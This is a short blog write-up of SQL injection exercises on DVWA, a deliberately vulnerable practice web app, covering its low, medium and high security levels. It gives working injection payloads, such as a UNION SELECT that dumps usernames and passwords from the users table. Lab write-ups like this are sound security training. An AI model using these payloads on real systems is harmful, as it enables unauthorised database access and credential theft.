 ```yaml
---
title: "SQL Injection - DVWA"
description: ""
summary: "Use an SQL injection attack to retrieve the admin password."
date: 2022-08-17
draft: false
author: "Aftab Sama" # ["Me", "You"] # multiple authors
tags: ["writeups", "challenge", "DVWA", "SQL Injection"]
canonicalURL: ""
showToc: true
TocOpen: false
TocSide: 'right'  # or 'left'
weight: 6
# aliases: ["/first"]
hidemeta: false
comments: true
disableHLJS: true # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
# UseHugoToc: true
# cover:
#     image: "<image path/url>" # image path/url
#     alt: "<alt text>" # alt text
#     caption: "<text>" # display caption under cover
#     relative: false # when using page bundles set this to true
#     hidden: true # only hide on current single page
# editPost:
#     URL: "https://github.com/"
#     Text: "Suggest Changes" # edit text
#     appendFilePath: true # to append file path to Edit link
---
```


### **Security level: low**

We can detect SQL injection with `'` on submiting this we get SQL error.

we can see all entries with `' or 1=1#` :

<img width="248" alt="image" src="https://user-images.githubusercontent.com/79740895/185461785-b0426c0a-db1c-4118-b654-fe62a8b607c9.png">

We can extract all passwords with payload:

```' UNION SELECT user, password FROM users#```

<img width="271" alt="image" src="https://user-images.githubusercontent.com/79740895/185463551-74dfcac3-bed2-44b5-9fd8-4bf6bcc78e2b.png">


### **Security level: medium**

It's using POST parameter and quotes are filtered, but ID value is directly added to the query so we dont even need quotes.

payload: `1 or 1=1 UNION SELECT user, password FROM users#`

<img width="326" alt="image" src="https://user-images.githubusercontent.com/79740895/185467076-707fd767-e575-42d1-9b86-5a16937f133d.png">

### **Security level: high**

payload from low security also works here.

Payload: `' UNION SELECT user, password FROM users#`

<img width="281" alt="image" src="https://user-images.githubusercontent.com/79740895/185468611-17e12bd2-8513-4844-beac-b0d8d9c27725.png">

Happy Hacking
